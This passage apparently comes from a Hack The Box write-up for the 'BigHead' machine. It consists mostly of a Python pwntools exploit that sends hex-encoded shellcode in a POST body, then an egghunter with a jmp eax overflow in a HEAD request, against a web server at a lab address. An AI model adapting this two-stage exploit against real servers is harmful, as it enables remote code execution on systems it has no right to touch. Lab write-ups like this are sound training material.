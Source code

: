 ```python
payload += "\xd6\xdc\xac\x4a\xd7\x2e\xac\x8b\xdf\xd0\xdb\xe5\x1c"
payload += "\x6c\xdc\x31\x5f\xaa\x69\xa2\xc7\x39\xc9\x0e\xf6\xee"
payload += "\x8c\xc5\xf4\x5b\xda\x82\x18\x5d\x0f\xb9\x24\xd6\xae"
payload += "\x6e\xad\xac\x94\xaa\xf6\x77\xb4\xeb\x52\xd9\xc9\xec"
payload += "\x3d\x86\x6f\x66\xd3\xd3\x1d\x25\xbb\x10\x2c\xd6\x3b"
payload += "\x3f\x27\xa5\x09\xe0\x93\x21\x21\x69\x3a\xb5\x30\x7d"
payload += "\xbd\x69\xfa\xee\x43\x8a\xfa\x27\x80\xde\xaa\x5f\x21"
payload += "\x5f\x21\xa0\xce\x8a\xdf\xaa\x58\x99\x08\xa1\xbf\x89"
payload += "\x34\xb5\xbf\x19\xb1\x53\xef\xc9\x91\xcb\x50\xba\x51"
payload += "\xbc\x38\xd0\x5e\xe3\x59\xdb\xb5\x8c\xf0\x34\x63\xe4"
payload += "\x6c\xac\x2e\x7e\x0c\x31\xe5\xfa\x0e\xb9\x0f\xfa\xc1"
payload += "\x4a\x7a\xe8\x36\x2d\x84\xf0\xc6\xd8\x84\x9a\xc2\x4a"
payload += "\xd3\x32\xc9\xab\x13\x9d\x32\x9e\x20\xda\xcd\x5f\x10"
payload += "\x90\xf8\xf5\x1c\xce\x04\x1a\x9c\x0e\x53\x70\x9c\x66"
payload += "\x03\x20\xcf\x93\x4c\xfd\x7c\x08\xd9\xfe\xd4\xfc\x4a"
payload += "\x97\xda\xdb\xbd\x38\x25\x0e\xbe\x3f\xd9\xcc\xe9\xe7"
payload += "\xb1\x2e\xaa\x17\x41\x45\x2a\x48\x29\x92\x05\x67\x99"
payload += "\x5b\x8c\x20\xb1\xd6\x41\x82\x20\xe6\x4b\x42\xfc\xe7"
payload += "\x78\x5f\x0f\x9d\xf1\x60\xf0\x62\x18\x05\xf1\x62\x24"
payload += "\x3b\xce\xb4\x1d\x49\x11\x05\x1a\x42\x24\x28\x0b\xc9"
payload += "\x46\x7e\x4b\xd8"

stage1 = "POST /coffee HTTP/1.1\r\n"
stage1 += "Host: dev.bighead.htb\r\n"
stage1 += "Content-Length: {}\r\n\r\n".format(len(payload))
stage1 += payload + "\r\n"
stage1 += "\r\n"

r = remote('172.23.10.186', 8008)
r.send(stage1)
r.recv()

r = remote('172.23.10.186', 8008)
jmp_eax = "f2125062"
align_esp = "505C" # push eax, pop esp
egghunter = "6681caff0f42526a0258cd2e3c055a74efb8773030748bfaaf75eaaf75e7ffe7"
stage2 = align_esp + egghunter + "9090" + jmp_eax

r.send("HEAD /" + stage2 + " HTTP/1.1\r\nHost: dev.bighead.htb\r\n\r\n")
```

When the egghunter is scanning memory, CPU usage goes to 100% for a few seconds.

![](/assets/images/htb-writeup-bighead/exploit/cpu.png)
